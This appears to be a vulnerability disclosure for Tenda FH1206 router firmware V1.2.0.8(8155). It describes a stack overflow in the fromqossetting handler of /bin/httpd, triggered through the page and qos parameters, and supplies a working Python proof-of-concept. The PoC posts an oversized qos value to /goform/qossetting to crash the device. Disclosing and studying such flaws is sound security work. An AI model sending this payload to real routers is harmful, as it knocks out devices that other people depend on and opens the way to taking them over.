


## Overview

- Manufacturer's website: https://www.tendacn.com
- Firmware download website:
  - https://www.tendacn.com/hk/download/detail-2344.html
  - https://www.tendacn.com/us/download/detail-2344.html

## Affected version

Tenda FH1206 V1.2.0.8(8155)

## Vulnerability details

A stack overflow vulnerability exists in the `fromqossetting` function of program `/bin/httpd` in FH1206 V1.2.0.8(8155). 

The function takes the `page` parameter and splices it to variable `v7` on the stack, causing a stack overflow.

When `op` is not `add` or `edit`, the function takes the `qos` parameter and copies it to variable `v8` on the stack, causing a stack overflow.



## PoC

```python
import requests

IP = '192.168.244.3'

url = f"http://{IP}/goform/qossetting"

data = {
    "entrys": "tenda",
    "op": "pwn!!!",
    "page": "hacked",
    "qos": "a"*0x1000,
    # "page": "a"*0x1000,
    # "qos": "hacked",
}

ret = requests.post(url,data=data)
```


